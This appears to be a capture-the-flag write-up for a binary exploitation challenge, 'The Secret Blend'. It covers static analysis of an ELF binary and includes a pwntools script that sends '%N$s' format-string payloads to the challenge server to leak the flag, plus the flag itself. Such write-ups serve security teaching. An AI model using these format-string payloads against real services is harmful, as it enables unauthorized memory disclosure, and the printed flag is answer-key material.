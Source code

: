 # !Kogarashi Café - The Secret Blend  

**Category:** Binary Exploitation 

A challenge that involves analyzing a binary and exploiting format string vulnerabilities to retrieve the flag.  

---

### Challenge  

**Provided File:** `secret_blend`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file secret_blend` to determine the binary type:
     
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00003bb9e0cd2a32ea61c4b60004ed82aa94d4a9, not stripped
     ```
   - Run `strings secret_blend` to find readable text inside:
     ```sh
     Barista: 'The special blend is missing...
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d secret_blend > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **format string vulnerability** that can be exploited to leak memory and extract the flag.
   - The challenge is to find the correct offset in the format string to retrieve the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file secret_blend  
   checksec --file=secret_blend  
   strings secret_blend  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze its functions and identify vulnerable inputs.  
   - The program does not properly sanitize user input, making it susceptible to a format string attack.  

3. **Exploit Format String Vulnerability**  
   - Use a script to test different offsets and locate the flag in memory.  

---

## Exploit Script  

```python
#!/usr/bin/env python3
from pwn import *

def test_offset(offset):
    try:
        # Create a new connection for each attempt
        p = remote("chals1.apoorvctf.xyz", 3003)
        # Wait until the prompt appears (using bytes)
        p.recvuntil(b"What will you have?")
        # Craft the payload for the given offset
        payload = f"%{offset}$s".encode()
        p.sendline(payload)
        # Use recvall to get all data until the connection closes
        response = p.recvall(timeout=2)
        p.close()
        return response
    except EOFError:
        # If the connection is closed before we receive data, return empty bytes
        return b""

def main():
    flag = None
    # Try offsets 1 through 15 to see which one leaks the flag
    for offset in range(1, 16):
        response = test_offset(offset)
        print(f"Offset {offset}: {response}")
        if b"flag{" in response:
            flag = response
            log.success("Flag found: " + flag.decode(errors="ignore"))
            break
    if flag is None:
        log.error("Flag not found. Adjust the offset range if needed.")

if __name__ == "__main__":
    main()
```

---

## Extracted Flag  

```
apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}
```
